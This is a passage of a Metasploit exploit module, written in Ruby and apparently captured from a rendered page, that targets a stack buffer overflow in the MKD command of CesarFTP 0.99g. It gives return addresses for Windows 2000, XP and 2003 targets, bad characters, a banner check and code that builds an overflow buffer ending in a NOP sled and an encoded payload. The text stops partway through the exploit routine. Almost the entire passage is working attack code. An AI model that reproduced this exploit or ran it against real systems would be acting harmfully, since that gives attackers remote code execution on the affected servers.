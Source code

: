 ```
				This module exploits a stack buffer overflow in the MKD verb in CesarFTP 0.99g.

				You must have valid credentials to trigger this vulnerability. Also, you
				only get one chance, so choose your target carefully.
			},
			'Author'         => 'MC',
			'License'        => MSF_LICENSE,
			'Version'        => '$Revision: 14774 $',
			'References'     =>
				[
					[ 'CVE', '2006-2961'],
					[ 'OSVDB', '26364'],
					[ 'BID', '18586'],
					[ 'URL', 'http://secunia.com/advisories/20574/' ],
				],
			'Privileged'     => true,
			'DefaultOptions' =>
				{
					'EXITFUNC' => 'process',
				},
			'Payload'        =>
				{
					'Space'    => 250,
					'BadChars' => "\x00\x20\x0a\x0d",
					'StackAdjustment' => -3500,
					'Compat'        =>
						{
							'SymbolLookup' => 'ws2ord',
						}
				},
			'Platform'       => 'win',
			'Targets'        =>
				[
					[ 'Windows 2000 Pro SP4 English', { 'Ret' => 0x77e14c29 } ],
					[ 'Windows 2000 Pro SP4 French',  { 'Ret' => 0x775F29D0 } ],
					[ 'Windows XP SP2/SP3 English',       { 'Ret' => 0x774699bf } ], # jmp esp, user32.dll
					#[ 'Windows XP SP2 English',       { 'Ret' => 0x76b43ae0 } ], # jmp esp, winmm.dll
					#[ 'Windows XP SP3 English',       { 'Ret' => 0x76b43adc } ], # jmp esp, winmm.dll
					[ 'Windows 2003 SP1 English',     { 'Ret' => 0x76AA679b } ],
				],
			'DisclosureDate' => 'Jun 12 2006',
			'DefaultTarget'  => 0))
	end

	def check
		connect
		disconnect

		if (banner =~ /CesarFTP 0\.99g/)
			return Exploit::CheckCode::Vulnerable
		end
			return Exploit::CheckCode::Safe
	end

	def exploit
		connect_login

		sploit =  "\n" * 671 + rand_text_english(3, payload_badchars)
		sploit << [target.ret].pack('V') + make_nops(40) + payload.encoded

```